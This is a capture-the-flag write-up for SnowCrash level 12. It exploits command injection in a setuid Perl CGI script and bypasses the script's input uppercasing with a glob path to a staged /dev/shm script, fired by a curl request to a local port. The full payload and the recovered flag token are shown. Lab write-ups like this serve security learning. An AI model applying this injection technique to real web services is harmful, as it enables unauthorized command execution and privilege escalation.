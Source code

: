 # Level 12

## Vulnerability
Priviledge escalation via CGI code injection

## Context
```
level12@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x+ 1 flag12 level12 464 Mar  5  2016 level12.pl
```
## Solution
Let's ```cat``` the file and see what we find. 
```
level12@SnowCrash:~$ cat level12.pl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/;
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }
}

n(t(param("x"), param("y")));
```
This program uses CGI (Common Gateway Interface) to execute a shellscript.<br/>
Here's what that would look like in a navigator:<br/>
http://${VM_IP}:4646/?x={shellscript}<br/>

In the program, our script is evaluated in the $xx variable... which is what we will exploit!<br/>
The regex will capitalize the $xx argument, so we if we write ```x="getflag > /dev/shm/flag12"``` it will be changed to ```"GETFLAG > /DEV/SHM/FLAG12"```.<br/>
Linux is case-sensitive, so it will fail to recognize a filepath in capital case. <br/>
Let's try writing our script to a file. 
```
level12@SnowCrash:~$ echo "getflag > /dev/shm/flag12" > /dev/shm/EXPLOIT
level12@SnowCrash:~$ cat /dev/shm/EXPLOIT
getflag > /dev/shm/flag12
```
Let's make sure we can run the script. 
```
level12@SnowCrash:~$ cd /dev/shm
level12@SnowCrash:/dev/shm$ `EXPLOIT`
EXPLOIT: command not found

level12@SnowCrash:/dev/shm$ `/dev/shm/EXPLOIT`
bash: /dev/shm/EXPLOIT: Permission denied
```
Ok, looks like it's not executable. Let's change the permissions on the file. 
```
level12@SnowCrash:/dev/shm$ chmod 755 EXPLOIT
level12@SnowCrash:/dev/shm$ `/dev/shm/EXPLOIT`
level12@SnowCrash:/dev/shm$ ls
EXPLOIT  flag12
level12@SnowCrash:/dev/shm$ cat flag12
Check flag.Here is your token :
Nope there is no token here for you sorry. Try again :)
```
It works! Time to leverage the perl program to execute our script. 
Since we can't pass the filepath directly (it'll get capitalized by the perl program and be unrecognizable), we'll use globbing and replace the file path with asterisks.
```
level12@SnowCrash:/dev/shm$ curl '127.0.0.1:4646?x="`/*/*/EXPLOIT`"'
..
level12@SnowCrash:/dev/shm$ cat flag12
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```
Success!
